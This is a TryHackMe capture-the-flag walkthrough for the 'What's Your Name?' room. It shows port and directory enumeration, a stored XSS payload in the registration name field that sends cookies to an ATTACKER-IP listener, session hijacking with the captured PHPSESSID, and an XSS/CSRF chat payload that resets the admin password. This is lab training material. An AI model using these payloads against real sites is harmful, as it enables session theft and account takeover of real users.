


# TryHackMe – What's Your Name?

## Port Enumeration
```bash
nmap -sV -p- -T5 <TARGET-IP>
```

### Open Ports

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 (Ubuntu)
8081/tcp open  http    Apache httpd 2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two HTTP services are running on ports **80** and **8081**, so both were analysed separately.

---

## Enumeration on Port 8081

Visiting `http://worldwap.thm:8081/` shows a blank page.

Directory enumeration was performed using Gobuster.

```bash
┌─[dsk@parrot]─[~]
└──╼ $gobuster dir -u http://worldwap.thm/public/html/ -w /usr/share/wordlists/dirb/big.txt -t 80
```

### Discovered Paths (Important)

- `/login.php`
- `/chat.php`
- `/change_password.php`
- `/profile.php`
- `/phpmyadmin`

Most pages redirect to `login.php`, indicating authentication is required.

---

## Enumeration on Port 80

Visiting:

```
http://worldwap.thm/public/html/index.php

```

The site redirects to a **registration page**:

```
http://worldwap.thm/public/html/register.php

```

After registering, the following message appears:

> You need to visit [login.worldwap.th](http://login.worldwap.th) log in once you register successfully
> 

The subdomain was added to `/etc/hosts`, but login did not work initially.

---

## Finding XSS in the Name Field

While testing inputs, the **name field** during registration was found to be vulnerable to **stored XSS**.

A Python HTTP server was started locally to capture cookies:

```bash
python3 -m http.server 4444

```

### XSS Payload Used During Registration

```html
<script>
fetch('http://ATTACKER-IP:4444/?'+btoa(document.cookie));
</script>

OR


```

### Captured Request

```
GET /?UEhQU0VTU0lEPTNpdWhsbWN0cjlmbTA3MTBzZGlvcDh2YXE1

```

### Decoded Cookie

```
PHPSESSID=3iuhlmctr9fm0710sdiop8vaq5
```

By replacing the session cookie in the browser for `login.worldwap.thm`, moderator access was obtained.



---

## Privilege Escalation to Admin

To escalate privileges, the **admin chat feature** was abused.

Since the admin reviews chat messages, stored XSS can be executed in the admin’s browser.

### Payload Used in Chat (Password Reset via CSRF)

```html
<script>
window.onload = function() {
    var form = document.createElement('form');
    form.method = 'POST';
    form.action = 'ht'+'tP://' + 'login.worldwap.thm/change_password.php';

    var input = document.createElement('input');
    input.type = 'hidden';
    input.name = 'new_password';
    input.value = 'admin';

    form.appendChild(input);
    document.body.appendChild(form);
    form.submit();
};
</script>

```

### What This Does

- Executes automatically when the admin opens the chat
- Sends a POST request to `change_password.php`
- Changes the admin password to `admin`
- Request is authenticated using the admin’s session cookies

After this:

1. Logout
2. Login as **admin**
3. Password: `admin`



---